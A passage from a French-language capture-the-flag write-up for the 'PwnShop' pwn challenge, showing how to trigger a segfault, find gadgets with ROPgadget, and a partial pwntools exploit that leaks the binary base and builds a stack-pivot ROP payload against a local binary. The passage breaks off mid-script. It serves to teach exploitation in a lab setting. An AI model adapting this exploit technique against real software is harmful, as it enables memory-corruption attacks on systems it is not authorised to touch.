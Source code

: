 Essayons de trigger le défaut de segmentation

![Untitled](PwnShop%20%5BPwn%5D%20Challenge%20895ef805e6ed4a98889545f333366461/Untitled%203.png)

Ca marche nous pouvons passer à la suite.

`—- Overflow et stack pivot -—`

Pour pivoter nous avons besoin de revenir en arrière dans le programme pour soustraire RSP et ensuite avoir un return. Ce qui nous permettra d’avoir plus d’espace pour travailler.

`ROPgadget --binary pwnshop --only “sub|ret”`

![Untitled](PwnShop%20%5BPwn%5D%20Challenge%20895ef805e6ed4a98889545f333366461/Untitled%204.png)

Nous pouvons améliorer notre exploit et maintenant il ressemble à cela :

```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./pwnshop')

        #STEP 1 Leak binary address

        io.sendlineafter('\n> ', '2')
        io.sendlineafter('What do you wish to sell? ', '')
        leak_padding = b'1'*8
        io.sendafter('How much do you want for it? ', leak_padding)

        binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
        binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
        binary_offset = u64(binary_offset, endian='little')
        binary_offset -= 0x40c0
        log.success(f'Leaked Binary Offset: {str(hex(binary_offset))}')

        #STEP 2 Stack Pivot
        padding_to_rop_chain = b'a'*40
        sell_function = p64(0x126a + binary_offset) #0x126a est l'adresse de la fonction sell
        
        rop_chain = sell_function + sell_function
        padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'
        sub_rsp = p64(0x1219 + binary_offset) #0x1219 venant de ROPGadget

        payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp
        print(payload)

        io.sendlineafter('\n> ', '1')
```